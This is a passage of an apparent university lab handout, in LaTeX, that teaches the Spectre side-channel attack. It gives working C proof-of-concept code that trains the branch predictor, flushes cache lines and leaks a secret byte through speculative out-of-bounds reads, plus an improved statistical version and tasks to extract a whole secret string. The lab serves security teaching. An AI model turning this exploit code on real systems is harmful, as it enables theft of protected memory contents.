
\includegraphics[width= 0.7\textwidth]{\spectreFigs/buffer_new.pdf}
\caption{Experiment setup: the buffer and the protected secret}
\label{spectre:fig:buffer}
\end{figure}

Figure~\ref{spectre:fig:buffer} illustrates the setup for the experiment.
In this setup, there are two types of regions: restricted region and non-restricted region.
The restriction is achieved via an if-condition implemented in a sandbox function
described below. The sandbox function returns the value of \texttt{buffer[x]} for an \texttt{x}
value provided by users, only if \texttt{x} is between the buffer's
lower and upper bounds.
Therefore, this sandbox function
will never return anything in the restricted area to users.


\begin{lstlisting}
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}
\end{lstlisting}

There is a secret value in the restricted area (either above the buffer
or below it), and the secret's address is known to the attacker, but
the attacker cannot directly access the memory holding the secret value.
The only way to access the
secret is through the above sandbox function. From the previous section, we have learned that
although the true-branch will never be executed if \texttt{x} is larger than the buffer size,
at microarchitectural level, it can be executed and some traces can be left behind
when the execution is reverted.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Program Used in the Experiment}


The code for the basic Spectre attack is shown below. In this code, there is a
secret defined in Line \ding{192}. Assume that we cannot directly
access the \texttt{secret}, \texttt{bound\_lower}, or 
\texttt{bound\_upper} variables (we do assume that we
can flush the two bound variables from the cache). 
Our goal is to print out the secret
using the Spectre attack. The code below only steals the first byte of the secret. Students can
extend it to print out more bytes. 


\begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Most of the code is the same as that in Listing~\ref{spectre:list:outoforder}, so
we will not repeat their explanation here. The most important part is 
in Lines \ding{193}, \ding{194}, and \ding{195}. Line \ding{195}
calculates the offset of the secret from the beginning of the buffer~(we assume that 
the address of the secret is known to the attacker; in real attacks, there are many ways for 
attackers to figure out the address, including guessing).
The offset is definitely beyond the scope of the buffer, so
it is larger than the upper bound of the buffer or smaller than the 
lower bound (i.e., a negative number). The offset
is fed into the \texttt{restrictedAccess()} function.
Since we have trained the CPU to take the true-branch inside
\texttt{restrictedAccess()}, the CPU will return \texttt{buffer[index\_beyond]}, which contains
the value of the secret, in the out-of-order execution. 
The secret value then causes its corresponding element in \texttt{array[]} to
be loaded into cache. All these steps will eventually be reverted, so 
from the outside, only zero is returned from \texttt{restrictedAccess()}, not the value of the secret.
However, the cache is not cleaned, and \texttt{array[s*4096 + DELTA]} is still kept in
the cache. Now, we just need to use the side-channel technique to figure out which element of the
\texttt{array[]} is in the cache.  


\paragraph{The Task.} Please compile and execute 
\texttt{SpectreAttack.c}. Describe your observation and note whether you are able to steal the
secret value. If there is a lot of noise in the side channel, you may not get consistent results 
every time. To overcome this,
you should execute the program multiple times and see whether you can get the secret value. 




% *******************************************
% SECTION
% ******************************************* 
\section{Task 5: Improve the Attack Accuracy}


In the previous tasks, it may be observed that the results do have some noise and the results
are not always accurate. This is because CPU sometimes load extra values in cache expecting
that it might be used at some later point, or the threshold is not very accurate. 
This noise in cache can affect the results of our
attack. We need to perform the attack multiple times; instead of doing it manually,
we can use the following code to perform the task automatically.

We basically use a statistical technique.
The idea is to create a score array of size 256, one element for each possible
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add \texttt{1} to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.


%One reason for the noise was the way we
%probe the array to read from the side channel. Till now, we were reading the array
%sequentially. To increase the performance, the CPU loads a lot of values from the $array$ into
%the cache. To prevent this, we use the code in line \ding{192}. The code simply assigns a value
%between 0 \& 255 to $random\_i$ and the value is not repeated. Since, the value is randomly
%selected the CPU does not load the extra values into the cache reducing the noise. 


\begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

\paragraph{Your tasks.} Please compile and run \texttt{SpectreAttackImproved.c},
and do the following tasks:

\begin{itemize}
  \item You may observe that when running the code above, 
        the one with the highest score is very likely to be 
        \texttt{scores[0]}. Please figure out why, and fix the code above,
        so the actual secret value (which is not zero) will be printed out. 
	
  \item Line~\ding{192} seems useless, but from our experience on SEED Ubuntu 20.04, without this line,
        the attack will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. 
	We have not figured out the exact reason yet, so if you can, your instructor will
	likely give you bonus points. 
	Please run the program with and without this line, and describe your observations. 

  \item Line~\ding{193} causes the program to sleep for 10 microseconds. How long the program
        sleeps does affect the success rate of the attack. Please try several other values,
	and describe your observations. 
\end{itemize}
 



% *******************************************
% SECTION
% ******************************************* 
\section{Task 6: Steal the Entire Secret String}

In the previous task, we  just read the first character of the \texttt{secret}
string. In this task, we need to print out the entire string using the 
Spectre attack. Please write your own code or extend the code in Task 5; include your
execution results in the report.


% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\bibliographystyle{plain}
\def\baselinestretch{1}
\bibliography{BibMeltdownSpectre}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


